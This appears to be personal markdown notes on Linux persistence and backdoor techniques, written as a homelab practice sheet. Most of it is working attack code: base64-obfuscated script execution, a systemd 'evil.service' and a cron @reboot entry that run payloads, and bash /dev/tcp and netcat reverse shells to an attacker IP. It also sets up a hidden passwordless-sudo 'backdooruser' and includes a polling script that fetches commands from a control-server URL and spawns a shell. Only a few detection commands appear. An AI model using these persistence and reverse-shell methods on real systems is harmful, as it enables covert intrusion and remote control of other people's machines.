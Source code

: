 ```yaml
---
title: AWS 
date: 2023-08-01
tags: [networking,homelab]
---
```


obsfucation :

origin is the actual script 

```
echo "echo $(base64 origin)" > obsf
chmod +x obsf
```

Running it 
```
sh obsf | base64 -d | sh
```

### Abusing Remote Access Without a Visible Session

`ssh user@host 'sudo apt install backdoor && systemctl enable backdoor'` 

you can catch it from 

`journalctl -u ssh`

### Dropping a systemd service 

Example evil service 

open a reverse shell
```
# /etc/systemd/system/evil.service
[Unit]
Description=Evil Backdoor Service
After=network.target

[Service]
ExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1'
Restart=always

[Install]
WantedBy=multi-user.target
```

### cron stuff 

```
@reboot root /usr/bin/evil_payload
```

## Shell stuff

### Reverse shell 

#### how do you find a shell ? 

Use ps to look for shells with no tty 

`ps -eo pid,user,tty,cmd | grep '[b]ash'`

Then check the parent process with 

`pstree -p <PID>`

you can also use 

`ps aux | grep bash`

*** Ussing lsof to see established connections  :- ***

`sudo lsof -i -nP | grep ESTABLISHED`

Start a shell 

```
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```
#### Disable root login

`PermitRootLogin no`

#### starting a reverse shell 

- we need to create an account first that only uses keys

Name it something like *** sysuser *** 

```
sudo adduser backdooruser
sudo usermod -aG sudo backdooruser

sudo visudo
backdooruser ALL=(ALL) NOPASSWD:ALL
```
NOPASSWD helpful for running sudo commands without sudo being prompted 

- setup ssh login 

```
ssh-keygen -t rsa -b 4096

sudo su - backdooruser
mkdir -p ~/.ssh
nano ~/.ssh/authorized_keys 
```

and paste your public key 

expected permissions 

```
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```


- Disable password login

```
sudo nano /etc/ssh/sshd_config
Match User backdooruser
    PasswordAuthentication no
    AuthenticationMethods publickey
``` 

then 

`sudo systemctl restart sshd`


- 2 ways to do a revshell 

```
bash -i >& /dev/tcp/attacker-ip/4242 0>&1
nc ATTACKER_IP 4444 -e /bin/bash
```

prefer to use tcp so that you can disable nc 

```
#!/bin/bash
URL="https://rasenrhino.github.io/static/reverse.html"  # Control server
SHELL_HOST="172.25.0.2"                      # Replace with your attacker's IP
SHELL_PORT=4242 # Port your listener is using
# Loop to check the control server
while true; do
    response=$(curl -s "$URL")
    echo $response
    if [[ "$response" == "yes" ]]; then
        echo "starting revshell"
        bash -i >& /dev/tcp/$SHELL_HOST/$SHELL_PORT 0>&1
    fi
    sleep 5
done
```

to start a python webserver 

```
python3 -m http.server 8080
```